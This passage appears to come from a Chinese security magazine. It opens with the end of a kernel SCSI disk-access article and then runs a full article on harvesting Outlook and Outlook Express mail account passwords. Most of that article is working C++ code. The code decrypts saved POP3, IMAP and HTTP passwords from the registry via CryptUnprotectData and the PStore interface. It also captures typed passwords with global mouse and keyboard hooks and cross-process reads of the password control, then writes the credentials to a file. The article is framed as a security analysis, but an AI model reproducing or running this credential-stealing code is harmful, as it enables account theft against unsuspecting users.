    srbBuffer.ScsiStatus = SRB_STATUS_PENDING;
    srbBuffer.PathId = PathId;
    srbBuffer.TargetId = TargetId;
    srbBuffer.Lun = Lun;
    srbBuffer.QueueAction = SRB_SIMPLE_TAG_REQUEST;
    srbBuffer.CdbLength = CDB10GENERIC_LENGTH;
    srbBuffer.SenseInfoBufferLength = sizeof(sdData);
    srbBuffer.SenseInfoBuffer = &sdData;
    srbBuffer.DataTransferLength = dwBufferSize;
    srbBuffer.DataBuffer = pvBuffer;
    srbBuffer.TimeOutValue = 5;
    srbBuffer.QueueSortKey = LBA;
    srbBuffer.SrbFlags = 0;
    srbBuffer.Cdb[0] = bOpCode;
    srbBuffer.Cdb[1] = 0;
    srbBuffer.Cdb[2] = (BYTE)((LBA & 0xff000000) >> 24);
    srbBuffer.Cdb[3] = (BYTE)((LBA & 0xff0000) >> 16);
    srbBuffer.Cdb[4] = (BYTE)((LBA & 0xff00) >> 8);
    srbBuffer.Cdb[5] = (BYTE)(LBA & 0xff);
    srbBuffer.Cdb[7] = (BYTE)((BlockNum & 0xff00) >> 8);
    srbBuffer.Cdb[8] = (BYTE)(BlockNum & 0xff);
    srbBuffer.Cdb[9] = 0;

    KeInitializeEvent(&keEvent, NotificationEvent, FALSE);
    piIrp = IoAllocateIrp(pdoDevice->StackSize, FALSE);
    if (piIrp != 0)
    {
        srbBuffer.OriginalRequest = piIrp;
        piIrp->RequestorMode = KernelMode;
        piIrp->UserIosb = &iosbStatus;
        piIrp->UserEvent = &keEvent;
    }

    pislStack = IoGetNextIrpStackLocation(piIrp);
    pislStack->DeviceObject = pdoDevice;
    pislStack->MajorFunction = IRP_MJ_SCSI;
    pislStack->Parameters.Scsi.Srb = &srbBuffer;

    pmMdl = IoAllocateMdl(pvBuffer, dwBufferSize, 0, 0, piIrp);
    if (!pmMdl)
    {
        IoFreeIrp(piIrp);
        return STATUS_INSUFFICIENT_RESOURCES;
    }

    piIrp->MdlAddress = pmMdl;

    __try
    {
        if (bDataIn & SRB_FLAGS_DATA_IN)
        {
            MmProbeAndLockPages(pmMdl, KernelMode, IoReadAccess);
            srbBuffer.SrbFlags =
                SRB_FLAGS_DISABLE_SYNCH_TRANSFER | SRB_FLAGS_DATA_IN | SRB_FLAGS_NO_QUEUE_FREEZE;
        }
        else if (bDataIn & SRB_FLAGS_DATA_OUT)
        {
            MmProbeAndLockPages(pmMdl, KernelMode, IoWriteAccess);
            srbBuffer.SrbFlags =
                SRB_FLAGS_DISABLE_SYNCH_TRANSFER | SRB_FLAGS_DATA_OUT | SRB_FLAGS_NO_QUEUE_FREEZE;
            srbBuffer.Cdb[1] = 8;
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return STATUS_UNSUCCESSFUL;
    }

    IoSetCompletionRoutine(piIrp, (PIO_COMPLETION_ROUTINE)((ULONG)RWComplete), NULL, TRUE, TRUE, TRUE);
    IoSetNextIrpStackLocation(piIrp);

    if (piIrp->CurrentLocation <= 0)
    {
        if (pmMdl)
        {
            MmUnlockPages(pmMdl);
            IoFreeMdl(pmMdl);
        }
        IoFreeIrp(piIrp);
        return STATUS_INSUFFICIENT_RESOURCES;
    }

    if (pddDispatch(pdoDevice, piIrp) == STATUS_PENDING)
    {
        KeWaitForSingleObject(&keEvent, Executive, KernelMode, FALSE, 0);
    }

    return iosbStatus.Status;
}
return STATUS_INSUFFICIENT_RESOURCES;


```

_InternalAvgerScsiCmd 函数使用的是 CDB10 标准，CDB10 最多只能访问 2TB 大小的硬盘，读者也可以自己尝试使用 CDB12 或者 CDB16 标准。

另外，示例代码是直接将 SRB 发送给驱动分发函数，其实如果磁盘小端口驱动有 StartIO 例程，也可以直接调用 StartIO，但要调整一下 SRB 的某些域，否则会蓝屏。读者有兴趣可以参考微软的磁盘端口驱动相关代码，某些 AV 产品就是使用了这种技术才绕过 TDL3/4 读取到真实的磁盘内容的。

## Outlook 中账户信息的全面获取

文/图 顽石

Outlook 作为微软 Office 系列中的一个重要组成部分，提供了强大的邮件管理和日程安排等功能，不仅适用于个人日常使用，亦可作为企业内部重要的办公软件。本文则正是针对各版本 Office 所包含的 Outlook（含 Outlook Express）的邮件账户信息的安全性进行了分析，并通过编写实际的账户信息获取程序对此进行了佐证。

## Outlook 中邮件账户安全性分析

Outlook 作为一个邮件客户端，对邮件的操作都是基于 POP3、IMAP 和 SMTP 协议的；在通信过程中根据邮件服务器的要求和用户的设置，可选择性地配置 TLS/SSL 协议的支持。选择 TLS/SSL，可以对 Outlook 客户端和邮件服务器间的通信内容进行加密传输，能够有效防止传输信道中抓包获取 POP3 账户口令的攻击方法。那是不是配置了 TLS/SSL，就一定是安全的呢？

答案显然是否定的：一是并非所有的邮件服务器都支持 TLS/SSL（Gmail、QQ 等主流邮箱都支持）；二是通信信道上的攻击成本上升了，但此时可以将攻击点转到邮件客户端。

对于配置好用户的邮件账户信息，包括 POP3、IMAP，Outlook 邮件客户端有两种处理方式：一是直接记住用户名、密码等所有配置信息，用户在收发信件的时候，Outlook 读取账户信息和服务器进行认证；二是不记住密码。这种情况下，Outlook 只记住配置信息，而具体的密码则在每次收发信件时提示用户输入。

对于上述两种方式，前者更加符合用户的日常使用方式，但后者也有少量人群使用。为了不留遗漏，接下来本文将以 Outlook 客户端作为攻击点，分别分析上述两种处理方式的安全缺陷。

## “记住密码”引发的血案

Windows 系统下有个内容庞大同时又“法力无边”的神器——注册表。注册表中存储了系统的很多配置信息，Outlook 中的用户账户信息也不例外。

Outlook 中所有的邮件账户信息均存储在注册表中该位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles`（注：不同版本的 Outlook 邮件客户端，略有差异，后文详述）。微软自然也不会犯“明文存储”这样的低级错误，用户名、服务器信息是明文的，但是密码是加密的！因此除了知道位置，还需要对其进行解密。值得欣慰的是，和其他组件/应用的安全处理流程一样——采用了 Windows 内置的加解密函数进行相应的加密或解密操作，如解密函数 CryptUnprotectData，或者 pstorec.dll 中的 IPStorePtr 接口。知道了密文存储位置，知道了解密方式，拿到密码岂不是易如反掌？

考虑到不同版本 Outlook 客户端的差异，下面分类描述。

- 1）**Outlook 2007 和 Outlook 2010**

对于 Outlook 2007 和 Outlook 2010，账户信息存储在注册表项路径 `HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles` 下面的第三级子项中，即存储在 `...\Profiles\level1\level2\level3\` 下，如图 1 所示。
图 1

从中可以看到相关账户信息的键名和键值，通过枚举每个项，过滤出“POP3 User”“POP3 Server”“POP3 Password”和“IMAP User”“IMAP Server”“IMAP Password”。其中，密码对应的键值是加密的，需要用 CryptUnprotectData 函数对“xxx Password”项对应的值进行解密，从而获得密码。

- 2）**Outlook 2003 和 Outlook Express**

对于 Outlook 2003 和 Outlook Express，账户信息存储在注册表键 `HKEY_CURRENT_USER\Software\Microsoft\Internet Account Manager\Accounts` 下的一级子键下，如图 2 所示。
图 2

其中，“POP3 User Name”“POP3 Server”和“POP3 Password2”对应了账户信息中相应的字段，因此可以通过过滤获得相应的值。同样地，密码字段对应的并非密码本身。解密密码需要使用 `pstorec.dll` 中的 `IPStorePtr` 接口，创建接口实例后，枚举 `TypeGuid`，寻找 `ItemGuid` 为“220d5cc1”的项；如果其对应的 `ItemName` 和前面获得的 `POP3 Password2` 的值匹配，则 `ItemName` 对应的 `ItemData` 即为密码信息。

## “输入密码”也并非那么安全

在收发邮件时，获取用户输入的密码则略麻烦，但并非遥不可及。图3是 Outlook 提示用户输入密码的提示框。
图3

对于这种方式的 Outlook 使用方式，密码是不会记录在系统里的，因此需要另辟蹊径。一个简单可行的方法是：当用户输完密码点击“确定”或者按下“回车键”时，获取窗口里的内容即可。实现这种方法的流程是：

- 1）寻找 Outlook 提示输入密码的窗口；
- 2）等待用户鼠标点击“确定”，或者输入“回车键”；
- 3）当 2）中两个事件中的任意一个事件发生，则枚举窗口，分别找到用户名、密码和服务器对应的子窗口，获得对应的 `WindowsText`；
- 4）考虑到密码控件的值只能由窗口所属进程获得，故需要注入 DLL 到该窗口所属进程，在需要获取时自动获取，并返回给密码获取程序。

通过这种方法，即可成功获得输入的密码。下面给出不同版本的 Outlook 密码提示窗口及关键字段子窗口的判断依据。

| 环境 | 类型 | 窗口内容 | 类名 | Style |
|---|---|---|---|---|
| Outlook 2007 | 主窗口 | 输入网络密码 | #32770 |  |
| Outlook 2007 | 用户名 | username | RichEdit20WPT | 50014080 |
| Outlook 2007 | 密码 | password | RichEdit20WPT | 500140A0 |
| Outlook 2007 | 服务器 | server | Edit | 50010880 |
| Express | 主窗口 | 登录 - | #32770 |  |
| Express | 用户名 | username | Edit | 50010080 |
| Express | 密码 | password | Edit | 500100A0 |
| Express | 服务器 | server | Static | 50020000 |
| Outlook 2003 | 主窗口 | Internet 电子邮件 - | #32770 |  |
| Outlook 2003 | 用户名 | username | RichEdit20WPT | 50014080 |
| Outlook 2003 | 密码 | password | Edit | 500100A0 |
| Outlook 2003 | 服务器 | server | RichEdit20WPT | 58004880 |
| Outlook 2010 | 主窗口 | Internet 电子邮件 - | #32770 |  |

| 年份 | 字段（中文） | 字段（英文） | 控件/值 | 地址 |
|---|---|---|---|---|
| 2010 | 用户名 | username | RichEdit20WPT | 50014080 |
| 2010 | 密码 | password | RichEdit20WPT | 500140A0 |
| 2010 | 服务器 | server | Edit | 50010880 |

## 编程实现

通过前面的分析，接下来编程实现一个简单 Outlook 密码获取工具就易如反掌了。

### 1）程序框架

- 由于两种获取方式不同，程序分别设置两种获取模式：  
  1. 获取保存的 Outlook 口令  
     该方式采用立即获取的方式，即获取时直接调用 `GetSavedOutlookPass();`。  
  2. 监控用户输入的 Outlook 口令  
     该方式需要开启一个线程，线程用来监控用户窗口，等待用户输入，从而获取密码。具体可以调用 `StartMonInputOutlookPasswd` 开始监控，调用 `StopGetInputPassword` 停止监控，其中函数 `StartMonInputOutlookPasswd` 用于内部创建线程，实现窗口的监视。

### 2）获取保存的密码

- （1）Outlook 2007 和 Outlook 2010 的密码获取
- 该功能主要在函数 `void GetOutlook0710Pass()` 中实现。
- ① 遍历至第三层子键

```cpp
//主路径
LPSTR lpMainKeyPath = "Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows Messaging Subsystem\\Profiles";
//打开szKeyPath，即.....\\Profiles
lRet = RegOpenKeyExA(HKEY_CURRENT_USER, lpMainKeyPath, 0,
KEY_ALL_ACCESS, &hkMainPath);
//第一次遍历子键
while (level_1 != ERROR_NO_MORE_ITEMS)
{//获得szMainKeyPath的子键名称
    dwBuffSize = sizeof(szKeyName);
    ZeroMemory(szKeyName, dwBuffSize);
    level_1 = RegEnumKeyExA(hkMainPath, dwIndex, szKeyName,
    &dwBuffSize, 0, 0, 0, &LastWriteTime);
    if (level_1 == ERROR_NO_MORE_ITEMS)
        break;

    //将子键名拼接到szMainKeyPath，生成子键完整路径
    strcpy_s(szKeyBuff, lpMainKeyPath);
    strcat_s(szKeyBuff, "\\");
    strcat_s(szKeyBuff, szKeyName);
    //打开subkeypath
    lRet = RegOpenKeyExA(HKEY_CURRENT_USER, szKeyBuff, 0,
    KEY_ALL_ACCESS, &hkSubKey);
    if (lRet != ERROR_SUCCESS)
```

```cpp
{ dwIndex++; continue; }
//第2层遍历子键
level_2 = 0; dwIndex = 0;
while (level_2 != ERROR_NO_MORE_ITEMS)
{
    dwBuffSize = sizeof(szKeyName);
    ZeroMemory(szKeyName, dwBuffSize);
    level_2 = RegEnumKeyExA(hkSubKey, dwSubIndex, szKeyName,
        &dwBuffSize, 0, 0, 0, &LastWriteTime);
    if (level_2 == ERROR_NO_MORE_ITEMS) break;
    strcpy_s(szSubKeyBuff, szKeyBuff);
    strcat_s(szSubKeyBuff, "\\");
    strcat_s(szSubKeyBuff, szKeyName);
    lRet = RegOpenKeyExA(HKEY_CURRENT_USER, szSubKeyBuff,
        0, KEY_ALL_ACCESS, &hkSubSubKey);
    if (lRet != ERROR_SUCCESS)
    { dwSubIndex++; continue; }
    //第3层遍历子键
    level_3 = 0; dwSubSubIndex = 0;
    while (level_3 != ERROR_NO_MORE_ITEMS)
    {
        dwBuffSize = sizeof(szKeyName);
        ZeroMemory(szKeyName, dwBuffSize);
        level_3 = RegEnumKeyExA(hkSubSubKey,
            dwSubSubIndex,
            szKeyName, &dwBuffSize, 0, 0, 0, &LastWriteTime);
        if (level_3 == ERROR_NO_MORE_ITEMS) break;

        ZeroMemory(szSubSubKeyBuff, sizeof(szSubSubKeyBuff));
        strcpy_s(szSubSubKeyBuff, szSubKeyBuff);
        strcat_s(szSubSubKeyBuff, "\\");
        strcat_s(szSubSubKeyBuff, szKeyName);
        lRet = RegOpenKeyExA(HKEY_CURRENT_USER,
            szSubSubKeyBuff, 0, KEY_ALL_ACCESS, &hkSubSubSubKey);
        if (lRet != ERROR_SUCCESS)
        { dwSubSubIndex++; continue; }
        ...
    }
    ...
}
....
```

- ② 根据注册表项，获取需要的键值

```cpp
//查询pop3账户信息
dwDataBufSize = sizeof(bData);
ZeroMemory(bData, dwDataBufSize);

lRet = RegQueryValueExA(hkSubSubSubKey, "POP3 User", 0, &type,
bData, &dwDataBufSize);
if (ERROR_SUCCESS == lRet)
{
    WideCharToMultiByte(0, 0, (LPCWSTR)bData, -1,
    (LPSTR)bOut, 0x7F, 0, 0);
    sprintf_s(szUserName, "%s", bOut);
    //查询服务器
    dwDataBufSize = sizeof(bData);
    ZeroMemory(bData, dwDataBufSize);
    if (ERROR_SUCCESS == RegQueryValueExA(hkSubSubSubKey,
    "POP3 Server", 0, &type, bData, &dwDataBufSize))
    {
        WideCharToMultiByte(0, 0, (LPCWSTR)bData, -1,
        (LPSTR)bOut, 0x7F, 0, 0);
        sprintf(szMailServer, "%s", bOut);
    }
    //查询密码
    dwDataBufSize = sizeof(bData);
    ZeroMemory(bData, dwDataBufSize);
    if (ERROR_SUCCESS == RegQueryValueExA(hkSubSubSubKey,
    "POP3 Password", 0, &type, bData, &dwDataBufSize))
    {
        if (bData[0] == 2)
        {
            DATA_BLOB dbIn, dbOut; dbIn.cbData = dwDataBufSize - 1;
            dbIn.pbData = (BYTE *)&bData[1];
            dbOut.cbData = 0; dbOut.pbData = 0;
            if (CryptUnprotectData(&dbIn, NULL, NULL, NULL,
            NULL, 1, &dbOut))
            {
                WideCharToMultiByte(0, 0,
                (LPCWSTR)dbOut.pbData, -1, (LPSTR)bOut, 0x7F, 0, 0);
                sprintf(szPasswd, "%s", bOut);
                SavePassInfo2File(szMailServer, szUserName, szPasswd);
            }
            LocalFree(dbOut.pbData);
        }
    }
}
else { lRet = GetLastError(); }

//查询IMAP账户信息
dwDataBufSize = sizeof(bData);
ZeroMemory(bData, dwDataBufSize);
if (ERROR_SUCCESS ==
```

```cpp
RegQueryValueExA(hkSubSubSubKey, "IMAP User", 0, &type, bData, &dwDataBufSize))
{
    WideCharToMultiByte(0, 0, (LPCWSTR)bData, -1, (LPSTR)bOut, 0x7F, 0, 0);
    sprintf(szUserName, "%s", bOut);

    //查询服务器信息
    dwDataBufSize = sizeof(bData);
    ZeroMemory(bData, dwDataBufSize);
    if (ERROR_SUCCESS == RegQueryValueExA(hkSubSubSubKey, "IMAP Server", 0, &type, bData, &dwDataBufSize)) {
        WideCharToMultiByte(0, 0, (LPCWSTR)bData, -1, (LPSTR)bOut, 0x7F, 0, 0);
        sprintf(szMailServer, "%s", bOut);
    }

    //查询密码信息
    dwDataBufSize = sizeof(bData);
    ZeroMemory(bData, dwDataBufSize);
    if (ERROR_SUCCESS == RegQueryValueExA(hkSubSubSubKey, "IMAP Password", 0, &type, bData, &dwDataBufSize))
    {
        if (bData[0] == 2)
        {
            DATA_BLOB dbIn, dbOut;
            dbIn.cbData = dwDataBufSize - 1;
            dbIn.pbData = (BYTE *)&bData[1];
            dbOut.cbData = 0;
            dbOut.pbData = 0;

            if (CryptUnprotectData(&dbIn, NULL, NULL, NULL, NULL, 1, &dbOut))
            {
                WideCharToMultiByte(0, 0, (LPCWSTR)dbOut.pbData, -1, (LPSTR)bOut, 0x7F, 0, 0);
                sprintf(szPasswd, "%s", bOut);
                SavePassInfo2File(szMailServer, szUserName, szPasswd);
            }
            LocalFree(dbOut.pbData);
        }
    }

    //查询web邮箱账户
    dwDataBufSize = ...
}
```

```cpp
sizeof(bData); ZeroMemory(bData, dwDataBufSize);
if (ERROR_SUCCESS ==
RegQueryValueExA(hkSubSubSubKey,
    "HTTP User", 0, &type, bData, &dwDataBufSize))
{
    WideCharToMultiByte(0, 0, (LPCWSTR)bData, -1,
    (LPSTR)bOut, 0x7F, 0, 0);
    sprintf(szUserName, "%s", bOut);
    //查询服务器
    dwDataBufSize = 1024;
    ZeroMemory(bData, sizeof(bData));
    if (ERROR_SUCCESS ==
    RegQueryValueExA(hkSubSubSubKey,
    "HTTP Server URL", 0, &type, bData,
    &dwDataBufSize))
    {
        WideCharToMultiByte(0, 0, (LPCWSTR)bData, -1,
        (LPSTR)bOut, 0x7F, 0, 0);
        sprintf(szMailServer, "%s", bOut);
    }
    //查询密码
    dwDataBufSize = 1024;
    ZeroMemory(bData, sizeof(bData));
    if (ERROR_SUCCESS ==
    RegQueryValueExA(hkSubSubSubKey,
    "HTTP Password", 0, &type, bData,
    &dwDataBufSize))
    {
        if (bData[0] == 2)
        {
            DATA_BLOB dbIn, dbOut; dbIn.cbData =
            dwDataBufSize - 1;
            dbIn.pbData = (BYTE *)&bData[1];
            dbOut.cbData = 0; dbOut.pbData = 0;
            if (CryptUnprotectData(&dbIn, NULL, NULL,
            NULL, NULL, 1, &dbOut))
            {
                WideCharToMultiByte(0, 0,
                (LPCWSTR)dbOut.pbData, -1, (LPSTR)bOut, 0x7F, 0, 0);
                sprintf(szPasswd, "%s", bOut);
                SavePassInfo2File(szMailServer,
                szUserName, szPasswd);
            }
            LocalFree(dbOut.pbData);
        }
    }
}
```

```cpp
}
}
}
```

## （2）Outlook 2003 和 Outlook Express 的账户信息获取

Outlook 2003 和 Outlook Express 的密码获取分为两步。

- ① 枚举账户信息和“密码”，该功能主要在函数 `EnumOutlookAccounts` 中实现。
  - A）遍历存储账户信息的子键

```cpp
LPSTR lpMainKeyPath = "Software\\Microsoft\\Internet Account Manager\\Accounts";
LONG lResult = RegOpenKeyExA(HKEY_CURRENT_USER, lpMainKeyPath, 0, KEY_ALL_ACCESS, &hkMainKey);
while (lRet != ERROR_NO_MORE_ITEMS) {
    dwSubKeyNameSize = 256;
    // 枚举注册表键
    lRet = RegEnumKeyExA(hkMainKey, dwEnumIndex, szSubKeyName, &dwSubKeyNameSize, NULL, NULL, NULL, &LastWriteTime);
    if (lRet == ERROR_NO_MORE_ITEMS) break;
    ZeroMemory(szSubKeyPath, sizeof(szSubKeyPath));
    strcpy(szSubKeyPath, lpMainKeyPath);
    strcat(szSubKeyPath, "\\");
    strcat(szSubKeyPath, szSubKeyName);
    // 打开注册表子键
    RegOpenKeyExA(HKEY_CURRENT_USER, szSubKeyPath, 0, KEY_ALL_ACCESS, &hkSubKey);
}
```

  - B）获取账户信息和“密码”

```cpp
// username
dwDataBufSize = sizeof(DataBuf);
ZeroMemory(DataBuf, dwDataBufSize);
if (RegQueryValueExA(hkSubKey, "HTTPMail User Name", 0, &type, DataBuf, &dwDataBufSize) == ERROR_SUCCESS) {
    strcpy(OutlookData[g_OutlookCountIndex].POPuser, (char*)DataBuf);
    // Server
    strcpy(OutlookData[g_OutlookCountIndex].POPserver, "Microsoft Hotmail");
    // password
    dwDataBufSize = sizeof(DataBuf);
    ZeroMemory(DataBuf, dwDataBufSize);
    if (RegQueryValueExA(hkSubKey, "HTTPMail Password2", 0, &type, DataBuf, &dwDataBufSize) == ERROR_SUCCESS) {
        int pos = 0;
        for (int i = 2; i < dwDataBufSize; i++)
        // 判断字母是否是用户输入的可识别字符（字母/数字/标点符号）
        if (IsCharAlphaNumeric(DataBuf[i]) || (DataBuf[i] == '(')
            || (DataBuf[i] == ')') || (DataBuf[i] == '.') || (DataBuf[i] == '"') || (DataBuf[i] == '-')) {
            OutlookData[g_OutlookCountIndex].POPpass[pos] = DataBuf[i];
            pos++;
        }
        OutlookData[g_OutlookCountIndex].POPpass[pos] = 0; // 结束符
    }
    g_OutlookCountIndex++;
}
else if (ERROR_SUCCESS == RegQueryValueExA(hkSubKey, "POP3 User Name", 0, &type, DataBuf, &dwDataBufSize)) {
    strcpy(OutlookData[g_OutlookCountIndex].POPuser, (char*)DataBuf);

    // 获取 server info
    ZeroMemory(DataBuf, sizeof(DataBuf));
    dwDataBufSize = sizeof(DataBuf);
    RegQueryValueExA(hkSubKey, "POP3 Server", 0, &type, DataBuf, &dwDataBufSize);
    strcpy(OutlookData[g_OutlookCountIndex].POPserver, (char*)DataBuf);

    // 获取 password info
    ZeroMemory(DataBuf, sizeof(DataBuf));
    dwDataBufSize = sizeof(DataBuf);
    if (RegQueryValueExA(hkSubKey, "POP3 Password2", 0, &type, DataBuf, &dwDataBufSize) == ERROR_SUCCESS) {
        int pos = 0;
        for (int i = 2; i < dwDataBufSize; i++)
        // 判断字母是否是用户输入的可识别字符（字母/数字/标点符号）
        if (IsCharAlphaNumeric(DataBuf[i]) || (DataBuf[i] == '(') || (DataBuf[i] == ')') || (DataBuf[i] == '.') || (DataBuf[i] == '"') || (DataBuf[i] == '-')) {
            OutlookData[g_OutlookCountIndex].POPpass[pos] = DataBuf[i];
            pos++;
        }
        OutlookData[g_OutlookCountIndex].POPpass[pos] = 0;
    }
    g_OutlookCountIndex++;
}
```

## 3）解密“密码”

该功能在函数 `GetOutlook2003Pass` 中实现。

```cpp
typedef HRESULT (WINAPI *PPStoreCreateInstance)(IPStore **, DWORD, DWORD, DWORD);
HMODULE hpsDLL;
hpsDLL = LoadLibraryA("pstorec.dll"); // 加载 pstorec.dll
PPStoreCreateInstance pPStoreCreateInstance;
// PStoreCreateInstance 函数地址
pPStoreCreateInstance = (PPStoreCreateInstance)GetProcAddress(hpsDLL, "PStoreCreateInstance");
IPStorePtr PStore;
HRESULT hRes = pPStoreCreateInstance(&PStore, 0, 0, 0);
IEnumPStoreTypesPtr EnumPStoreTypes;
// 枚举 Types
hRes = PStore->EnumTypes(0, 0, &EnumPStoreTypes);
if (!FAILED(hRes)) {
    ...
    // 枚举 TypeGUID
    while (EnumPStoreTypes->raw_Next(1, &TypeGUID, 0) == S_OK) {
        wsprintfA(szItemGUID, "%x", TypeGUID);
        IEnumPStoreTypesPtr EnumSubTypes;
        hRes = PStore->EnumSubtypes(0, &TypeGUID, 0, &EnumSubTypes);
        GUID subTypeGUID;
        // 枚举 subTypeGUID
        while (EnumSubTypes->raw_Next(1, &subTypeGUID, 0) == S_OK) {
            IEnumPStoreItemsPtr spEnumItems; LPWSTR itemName;
            // 根据 TypeGUID 和 subTypeGUID 枚举内容
            HRESULT hRes = PStore->EnumItems(0, &TypeGUID, &subTypeGUID, 0, &spEnumItems);
            while (spEnumItems->raw_Next(1, &itemName, 0) == S_OK) {
                ...
                _PST_PROMPTINFO *pstiinfo = NULL;
                try {
                    hRes = PStore->ReadItem(0, &TypeGUID, &subTypeGUID, itemName, &psDataLen, &psData, pstiinfo, 0);
                } catch (_com_error e) {
                    continue;
                }
                if (lstrlenA((char *)psData) < (psDataLen - 1))
            }
        }
    }
}
```

```c
{
    int i = 0;
    // 将 Unicode 字符串转换为多字节字符串
    for (int m = 0; m < psDataLen; m += 2) {
        if (psData[m] == 0) szItemData[i] = ',';
        else szItemData[i] = psData[m];
        i++;
    }
    szItemData[i - 1] = 0;
}
else {
    wsprintfA(szItemData, "%s", psData);
}
// Outlook Express 的自动保存口令信息
if (lstrcmpA(szItemGUID, "220d5cc1") == 0) {
    for (i = 0; i < g_OutlookCountIndex; i++) {
        if (lstrcmpA(OutlookData[i].POPpass, szItemName) == 0) {
            bDeletedOEAccount = FALSE;
            SavePassInfo2File(OutlookData[i].POPserver,
                              OutlookData[i].POPuser,
                              szItemData);
            break;
        }
    }
}
}
}
}
}
```

## 4）获取输入的密码

输入密码主要在 `StartMonInputOutlookPasswd` 函数创建的线程里实现。

- 1. 线程函数 **GetInputPassword**
  - 循环遍历窗口，找到 Outlook 的密码输入提示框。

```c
g_bContinueGetInputPass = TRUE;
while (g_bContinueGetInputPass) {
    // 查找主对话框窗口
    g_HParentWnd = FindWindowA("#32770", NULL);
    // 获取窗口标题
}
```

```cpp
dwLength = GetWindowTextA(g_HParentWnd, szTempBuf, MAX_PATH);
if (dwLength != 0) {
    // 依次判断窗口名
    for (int i = 0;
         g_bContinueGetInputPass &&
         i < sizeof(szWindowsCaptions) / MAX_PATH; i++) {
        if (0 == strncmp(szTempBuf, szWindowsCaptions[i], strlen(szWindowsCaptions[i]))) {
            // 当用户点击确定时，获取口令
            IsOkClicked();
            // 保存获取到的口令
            if (0 == strlen(g_szServer) || 0 == strlen(g_szUsername) ||
                0 == strlen(g_szPassword)) {
                ;
            } else {
                SavePassInfo2File(g_szServer, g_szUsername, g_szPassword);
            }
            break;
        }
    } // end for
}
// 继续下一轮的窗口遍历
g_HParentWnd = GetWindow(g_HParentWnd, GW_HWNDNEXT);
Sleep(20);
```

### （2）“确定”键的监控

用户输入密码结束的动作有两种形式，一种是点击按钮“确定”，另一种是密码框内按下回车键，因此需要监控两种情况。开始监控在 `IsOKClicked` 中实现，具体监控则在回调函数 `MouseClickProc` 和 `KeyboardStorkeProc` 中实现。

- 1. 安装鼠标、监控输入钩子

```cpp
MSG msg;
// 安装鼠标和键盘钩子
g_MouseHook = SetWindowsHookExA(WH_MOUSE_LL, MouseClickProc,
                                GetModuleHandle(0), 0);
g_KeboardHook = SetWindowsHookExA(WH_KEYBOARD_LL,
                                  &KeyboardStorkeProc, GetModuleHandle(0), 0);
if (g_KeboardHook == NULL || g_MouseHook == NULL) return 0;
// 维持消息循环
while (GetMessage(&msg, NULL, 0, 0)) {
    if (msg.message == MYMSG_ID) break;
}
TranslateMessage(&msg);
DispatchMessage(&msg);
};
UnhookWindowsHookEx(g_MouseHook);
UnhookWindowsHookEx(g_KeboardHook);
return true;
```

### ② 鼠标左键点击的回调函数

```cpp
HWND hWnd;
LPMOUSEHOOKSTRUCT pMouseInfo;
char szText[MAX_PATH] = {0};
if (code >= 0) {
    if (w_param == WM_LBUTTONDOWN) {
        pMouseInfo = (MOUSEHOOKSTRUCT FAR *)l_param;
        hWnd = WindowFromPoint(pMouseInfo->pt);
        // 获得控件标题，并判断是否是确定
        GetWindowTextA(hWnd, szText, MAX_PATH);
        if (strcmp(szText, "确定") == 0) {
            // 开始获取密码
            EnumChildWindows(g_HParentWnd, (WNDENUMPROC)EnumChildProc, (LPARAM)NULL);
            // 通知获取到密码，结束消息循环
            PostMessageA(NULL, MYMSG_ID, 0, 0);
        }
    }
}
return CallNextHookEx(g_MouseHook, code, w_param, l_param);
```

### ③ 键盘输入回车键的回调函数

```cpp
PKBDLLHOOKSTRUCT KeyboardInfo = (PKBDLLHOOKSTRUCT)l_param;
const char* info = NULL;
if (w_param == WM_KEYDOWN && KeyboardInfo->vkCode == 0x0d) {
    // 按下回车键
    EnumChildWindows(g_HParentWnd, (WNDENUMPROC)EnumChildProc, (LPARAM)NULL);
    PostMessage(NULL, MYMSG_ID, 0, 0);
}
return CallNextHookEx(g_KeboardHook, code, w_param, l_param);
```

## 5）子窗口中获取账户信息

该功能主要在枚举子窗口的回调函数 `EnumChildProc` 中实现。通过判断窗口的类名、Style 和 ExStyle 定位相应的窗口。

```cpp
// 窗口处理程序
BOOL CALLBACK EnumChildProc(HWND hwnd, LPARAM lParam)
{
    char szTempBuf[MAX_PATH] = {0};
    DWORD style = 0, dwExStyle = 0;
    if (hwnd) // 如果窗口存在
    {
        // 获取窗口信息
        ZeroMemory(szTempBuf, MAX_PATH);
        GetClassName(hwnd, szTempBuf, MAX_PATH);
        style = GetWindowLong(hwnd, GWL_STYLE);
        dwExStyle = GetWindowLong(hwnd, GWL_EXSTYLE);

        // 用户名
        if (0x50010080 == style // xp + express username
            || 0x50014080 == style // xp + outlook 2007, 2003
        ) {
            ZeroMemory(szTempBuf, MAX_PATH);
            ZeroMemory(g_szUsername, MAX_PATH);
            GetRemoteText(hwnd, szTempBuf);
            strcpy(g_szUsername, szTempBuf);
            return TRUE;
        }

        // 密码
        if (0x500100a0 == style // xp + express, 2003
            || 0x500140a0 == style) // xp + outlook 2007
        {
            ZeroMemory(szTempBuf, MAX_PATH);
            ZeroMemory(g_szPassword, MAX_PATH);
            GetRemoteText(hwnd, szTempBuf);
            strcpy(g_szPassword, szTempBuf);
            return TRUE;
        }

        // 服务器
        if (0x50020000 == style && dwExStyle == 0x4
            // xp + express 最后一个子窗口是服务器
            || 0x50010880 == style && dwExStyle == 0x204
            // xp + outlook 2007
            || 0x58004880 == style // xp, outlook 2003
        ) {
            ZeroMemory(szTempBuf, MAX_PATH);
            ZeroMemory(g_szServer, MAX_PATH);
            GetRemoteText(hwnd, szTempBuf);
            strcpy(g_szServer, szTempBuf);
        }
    }
}
```

```c
return TRUE;
}
return FALSE;
}
```

#### 小结

本文主要介绍了针对各种版本的 Outlook 账户信息的全面获取，所谓“全面获取”是指包括已经存储的账户信息，也包括用户输入的账户密码。通过实际测试，该获取方法可以全面覆盖 Outlook Express、Outlook 2003、Outlook 2007 和 Outlook 2010。由于版本覆盖面广、信息获取全面，因此该方法的获取思路和实现方式具有较好的参考意义，同时 Outlook 的安全性也值得其用户反思。

### 编写 Chrome 浏览器插件自动下载邮件

文/图 Tiger

